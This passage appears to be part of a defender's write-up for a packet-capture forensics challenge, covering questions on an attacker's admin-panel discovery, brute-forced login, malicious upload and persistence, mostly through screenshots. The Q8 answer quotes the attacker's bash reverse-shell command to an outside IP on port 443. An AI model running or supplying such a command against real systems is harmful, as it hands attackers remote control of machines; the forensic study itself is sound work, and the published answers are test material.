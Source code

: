 ## Q5. After the effort to enumerate directories on our web server, the attacker made numerous requests to identify administrative interfaces. Which specific directory related to the admin panel did the attacker uncover?  
Now we will focus on the http requests that return a 200 OK status after repeated 404 Not Found returns. One of them should lead to attackers interest.
<img width="1310" height="257" alt="image" src="https://github.com/user-attachments/assets/a7b48d99-6e59-4dd4-b6d1-54046f601fbd" />
We can double check in >Statictics.<img width="990" height="192" alt="image" src="https://github.com/user-attachments/assets/740711ca-39cf-4989-b986-bcbd1af7ae30" />
As we can see, attacker used /manager to upload the payload. Thus, proving our answer.

## Q6. After accessing the admin panel, the attacker tried to brute-force the login credentials. Can you determine the correct username and password that the attacker successfully used for login?  
This packet interested me the most, because of the payload. 
<img width="1723" height="45" alt="image" src="https://github.com/user-attachments/assets/e2ab0485-af46-46b9-b13e-f7dacbc37921" />
I inspected this packet and found the answer.
<img width="1165" height="367" alt="image" src="https://github.com/user-attachments/assets/5e0b3b48-3aed-4369-9631-b9490496777a" />

## Q7. Once inside the admin panel, the attacker attempted to upload a file with the intent of establishing a reverse shell. Can you identify the name of this malicious file from the captured data?  
Just inside the previous packet.
<img width="297" height="109" alt="image" src="https://github.com/user-attachments/assets/d9f9df50-9496-464e-812d-884bbc11a7de" />

## Q8. After successfully establishing a reverse shell on our server, the attacker aimed to ensure persistence on the compromised machine. From the analysis, can you determine the specific command they are scheduled to run to maintain their presence?
Follow the attackers steps. TCP will lead us to next step that attacker done.
<img width="119" height="68" alt="image" src="https://github.com/user-attachments/assets/2f7cca9d-f8ed-499a-820a-039959ce99dd" />
<img width="1903" height="900" alt="image" src="https://github.com/user-attachments/assets/55911afd-e027-4f51-ac50-dc764468341f" />
Just next to the payload sequence, we see the next TCP sequence that lead us to the persistence attack.
The answer is /bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'

## <img width="559" height="146" alt="image" src="https://github.com/user-attachments/assets/e79e7d40-edef-4ef5-a53e-522f31267e9c" />

